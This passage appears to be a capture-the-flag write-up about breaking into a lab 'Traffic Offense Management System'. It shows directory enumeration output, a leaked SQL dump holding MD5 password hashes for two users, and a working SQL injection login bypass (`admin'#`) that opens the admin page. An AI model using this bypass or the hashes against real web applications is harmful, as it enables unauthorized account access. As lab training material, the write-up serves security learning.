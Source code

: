 ```bash
  /classes              (Status: 301) [Size: 332] [--> http://10.10.118.160:445/management/classes/]
  /dist                 (Status: 301) [Size: 329] [--> http://10.10.118.160:445/management/dist/]
  /inc                  (Status: 301) [Size: 328] [--> http://10.10.118.160:445/management/inc/]
  /build                (Status: 301) [Size: 330] [--> http://10.10.118.160:445/management/build/]
  /libs                 (Status: 301) [Size: 329] [--> http://10.10.118.160:445/management/libs/]
```
I proceeded with the analysis of the subdirectories.

### /management/database
The directory provided me a `sql` file which give me the following hints:
```text
phpMyAdmin SQL Dump -- version 5.1.1
Host: 127.0.0.1
PHP Version: 8.0.7
Database: `traffic_offense_db`
[... reduced for readability...]
--
-- Dumping data for table `users`
--

INSERT INTO `users` (`id`, `firstname`, `lastname`, `username`, `password`, `avatar`, `last_login`, `type`, `date_added`, `date_updated`) VALUES
(1, 'Adminstrator', 'Admin', 'admin', '0192023a7bbd73250516f069df18b500', 'uploads/1624240500_avatar.png', NULL, 1, '2021-01-20 14:02:37', '2021-06-21 09:55:07'),
(9, 'John', 'Smith', 'jsmith', '1254737c076cf867dc53d60a0364f38e', 'uploads/1629336240_avatar.jpg', NULL, 2, '2021-08-19 09:24:25', NULL);

```

This gives us the administrator username. When trying the password the response looks like this:
```json
{"status":"incorrect","last_qry":"SELECT * from users where username = 'admin' and password = md5('admin123') "}
```

After playing around with some SQL-Injection techniques by inserting for username `admin'#` I got this:
```html
{"status":"success"}
```

The admin page of the Traffic Offense Management System appeared:
